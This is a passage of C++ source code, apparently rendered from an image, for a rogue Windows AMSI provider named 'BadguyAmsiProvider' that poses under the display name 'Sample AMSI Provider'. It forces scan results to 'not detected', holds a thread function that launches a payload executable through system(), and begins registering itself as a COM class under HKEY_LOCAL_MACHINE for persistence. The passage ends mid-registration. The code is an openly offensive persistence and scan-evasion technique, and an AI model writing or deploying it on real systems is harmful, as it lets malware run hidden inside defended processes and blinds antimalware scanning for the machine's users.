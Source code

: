 ```C++
			}
		}
	}

	*result = AMSI_RESULT_NOT_DETECTED;

	return S_OK;
}

void BadguyAmsiProvider::CloseSession(_In_ ULONGLONG session)
{

}

HRESULT BadguyAmsiProvider::DisplayName(_Outptr_ LPWSTR* displayName)
{
	*displayName = const_cast<LPWSTR>(L"Sample AMSI Provider");
	return S_OK;
}

CoCreatableClass(BadguyAmsiProvider);

DWORD WINAPI MyThreadFunction(LPVOID lpParam)
{
	system("c:\\path\\to\\badguy.exe");

	return 0;
}


#pragma region Install / uninstall

HRESULT SetKeyStringValue(_In_ HKEY key, _In_opt_ PCWSTR subkey, _In_opt_ PCWSTR valueName, _In_ PCWSTR stringValue)
{
	LONG status = RegSetKeyValue(key, subkey, valueName, REG_SZ, stringValue, (wcslen(stringValue) + 1) * sizeof(wchar_t));
	return HRESULT_FROM_WIN32(status);
}

STDAPI DllRegisterServer()
{
	wchar_t modulePath[MAX_PATH];
	if (GetModuleFileName(g_currentModule, modulePath, ARRAYSIZE(modulePath)) >= ARRAYSIZE(modulePath))
	{
		return E_UNEXPECTED;
	}

	wchar_t clsidString[40];
	if (StringFromGUID2(__uuidof(BadguyAmsiProvider), clsidString, ARRAYSIZE(clsidString)) == 0)
	{
		return E_UNEXPECTED;
	}

	wchar_t keyPath[200];
	HRESULT hr = StringCchPrintf(keyPath, ARRAYSIZE(keyPath), L"Software\\Classes\\CLSID\\%ls", clsidString);
	if (FAILED(hr)) return hr;

	hr = SetKeyStringValue(HKEY_LOCAL_MACHINE, keyPath, nullptr, L"BadguyAmsiProvider");
	if (FAILED(hr)) return hr;

```